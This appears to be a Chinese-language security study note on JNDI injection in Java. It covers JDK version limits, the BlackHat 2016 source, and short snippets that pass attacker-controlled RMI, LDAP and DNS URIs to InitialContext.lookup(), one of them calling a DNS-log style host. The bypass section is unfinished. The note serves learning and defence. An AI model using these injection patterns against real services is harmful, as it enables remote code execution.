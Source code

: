 **邂逅 —— 「雨伞倾斜的第二次偶然」**

---

示例代码见 https://github.com/Rain1er/security_db/tree/main/Java_relevant/code/jndi

## 1. jndi注入

### 1.1 背景知识

> The **Java Naming and Directory Interface** (**JNDI**) is a Java [API](https://en.wikipedia.org/wiki/Application_programming_interface) for a [directory service](https://en.wikipedia.org/wiki/Directory_service) that allows Java software clients to discover and look up data and resources (in the form of Java [objects](https://en.wikipedia.org/wiki/Object_(computer_science))) via a name. Like all [Java](https://en.wikipedia.org/wiki/Java_(programming_language)) APIs that interface with host systems, JNDI is independent of the underlying implementation.

简单来说，JNDI 就像Java里的“电话簿”，让你可以通过名字找到各种资源（如Java对象、数据库、EJB、消息队列等）和各种目录服务如LDAP、DNS、RMI Registry等），无论它们是在本地还是远程服务器上。

这里主要记录LADP、RMI、DNS 协议的攻击。

* **版本限制** 

JDK 6u141、7u131、8u121之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

<img src="https://cdn.jsdelivr.net/gh/Rain1er/images@main/img/20200419225882.png" alt="image.png" style="zoom:50%;" />



## 1.2 利用手法

> 当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

最初公开于BlackHat 2016（USA）

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### 1.2.1 利用RMI协议注入

> `Remote Method Invocation` JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象

```java
String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的对象,传入攻击者可控的RMIServer,其中包含恶意类
InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
initialContext.lookup(uri); // 获取指定的远程对象
```



### 1.2.2 利用LDAP协议注入

>  `Lightweight Directory Access Protocol` 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("ldap://127.0.0.1:7777/Exp");
```



### 1.2.3 利用DNS协议注入

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("dns://c17208f0.log.cdncache.rr.nu.");    // 关闭clash的tun模式
```





## 1.3 原理分析 & 高版本的绕过

todo

